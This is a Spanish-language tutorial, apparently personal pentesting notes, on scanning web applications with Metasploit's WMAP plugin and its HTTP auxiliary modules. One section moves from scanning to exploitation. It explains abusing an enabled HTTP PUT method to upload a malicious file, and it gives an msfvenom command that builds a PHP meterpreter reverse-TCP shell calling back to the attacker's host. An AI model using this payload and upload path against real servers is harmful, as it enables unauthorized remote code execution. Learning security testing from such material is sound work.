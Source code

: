 # Análisis de Vulnerabilidades Web con WMAP (Metasploit)

## ¿Qué es WMAP?

WMAP es un **plugin de Metasploit Framework** que permite realizar **análisis de vulnerabilidades en aplicaciones web** de forma integrada. Está basado en el motor de Nikto y combina escaneo pasivo y activo sobre objetivos HTTP/HTTPS.

---

## Preparación: Cargar el módulo WMAP

```bash
msfconsole
load wmap
```

Esto carga el plugin de WMAP en la consola.

---

## Paso 1: Crear el entorno de trabajo

1. **Añadir el sitio al workspace**
```bash
wmap_sites -a <IP>
```

2. **Establecer el objetivo**
```bash
wmap_targets -t http://<IP>
```

3. **Verificar los sitios añadidos**
```bash
wmap_sites -l
```

---

## Paso 2: Ejecutar el escaneo

```bash
wmap_run -t
```

Esto ejecutará todos los módulos asociados al target (si están disponibles) y comenzará el escaneo de vulnerabilidades web.

> El `-t` indica que se ejecute contra el objetivo especificado.

---

## Uso de módulos auxiliares HTTP

### 1. **Ver métodos HTTP habilitados**

```bash
use auxiliary/scanner/http/options
set RHOSTS <IP>
set RPORT 80
run
```

Este módulo intenta descubrir métodos habilitados en el servidor (GET, POST, PUT, DELETE, etc.). Si PUT o DELETE están habilitados, puede ser crítico.

---

### 2. **Intentar carga de archivos con HTTP PUT**

```bash
use auxiliary/scanner/http/http_put
set RHOSTS <IP>
set RPORT 80
set PATH /upload/test.txt
run
```

- **PATH** es la ruta donde intentará subir el archivo.
- Si el resultado es **“upload successful”**, quiere decir que el servidor permite subir archivos arbitrarios, lo cual es un riesgo de seguridad.

---

### ¿Qué pasa si el HTTP PUT funciona?

Si el servidor permite subir archivos, puedes:
- Subir un archivo PHP, ASPX o JS malicioso.
- Obtener ejecución remota si la carpeta subida es accesible vía web.
- Usar Metasploit para generar payloads con `msfvenom` y subirlos.

Ejemplo:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=4444 -f raw > shell.php
```

Luego subirlo con el módulo `http_put` y acceder vía navegador:
```
http://<victima>/upload/shell.php
```

---

## Casos de uso de WMAP

- Escaneo de vulnerabilidades web automatizado.
- Verificación de métodos HTTP inseguros.
- Detección de directorios ocultos y configuraciones erróneas.
- Identificación de formularios y posibles vectores XSS/SQLi.

---

## Resumen de comandos WMAP

```bash
load wmap                       # Cargar el plugin
wmap_sites -a <IP>              # Añadir un nuevo sitio
wmap_targets -t http://<IP>     # Definir objetivo HTTP
wmap_sites -l                   # Ver los sitios añadidos
wmap_run -t                     # Ejecutar escaneo completo
```

---

